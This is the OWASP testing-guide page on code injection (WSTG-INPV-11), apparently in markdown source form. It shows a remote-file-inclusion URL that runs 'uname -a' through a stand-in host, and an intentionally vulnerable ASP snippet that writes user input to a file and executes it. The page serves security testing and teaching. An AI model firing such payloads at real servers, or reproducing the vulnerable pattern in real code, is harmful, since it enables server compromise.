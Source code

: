 +++
title = "Testing for Code Injection"
date =  2020-12-16T19:17:59+09:00
weight = 40711
+++

# Testing for Code Injection

|ID          |
|------------|
|WSTG-INPV-11|

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](https://owasp.org/www-community/attacks/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## Test Objectives

- Identify injection points where you can inject code into the application.
- Assess the injection severity.

## How to Test

### Black-Box Testing

#### Testing for PHP Injection Vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray-Box Testing

#### Testing for ASP Code Injection Vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### References

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](http://www.wikipedia.org)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)
